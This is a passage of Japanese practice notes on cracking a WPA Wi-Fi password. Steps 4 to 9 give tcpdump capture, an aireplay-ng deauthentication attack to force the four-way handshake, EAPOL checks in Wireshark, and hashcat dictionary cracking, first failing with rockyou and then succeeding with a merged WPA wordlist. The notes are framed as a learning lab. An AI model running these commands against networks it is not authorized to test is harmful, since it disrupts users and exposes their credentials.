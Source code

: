 4. **キャプチャ:**  
   ```sh
   tcpdump -i wlan1mon -w /sd/practice7.pcap
   ```

5. **Deauth攻撃:**  
   ```sh
   aireplay-ng --deauth 1 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan1mon
   ```
  - YY: Frameが多い方のデバイスを選択。通信が多いので、キャプチャできるチャンスが増える。
  - 何度も間隔を開けて行う。Message 1 of 4 - Message 4 of 4 までのハンドシェイクのキャプチャを取得しないといけないため。
  - 4つ全て取得できるまで何度も。確認はwireshrk。

6. **キャプチャファイルの移動:**  
   ```sh
   scp root@172.16.42.1:/sd/practice.pcap C:\Users\ebisu\Desktop\
   ```

7. **Wiresharkで `eapol` を確認し保存** 
   Message 1 of 4 - Message 4 of 4 全て含まれていたら成功。

8. **Hashcatでパスワードクラック:**: 失敗  
   ```sh
   hcxpcapngtool -o handshake.hccapx practice7.pcap #.pcap ファイル ⇢ .hccapxファイルへ
   hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt
   ```
   ![alt text](../assets/images/2025-02-07_22-10.png)

9. **別のパスワードリストを使用:**: 成功  
   別のWiFI用のPWリストを取得: [WPA-Dictionary](https://github.com/TKanX/WPA-Dictionary)

   ```sh
   cat /media/.../WPA-password-dictionary/*.txt > /media/.../WPA-password-dictionary/merged_wordlist.txt #フォルダに数多くの.txtファイルがあったので１つにまとめる
   hashcat -m 22000 -a 0 -w 3 practice7.hccapx /media/.../WPA-password-dictionary/merged_wordlist.txt
   ```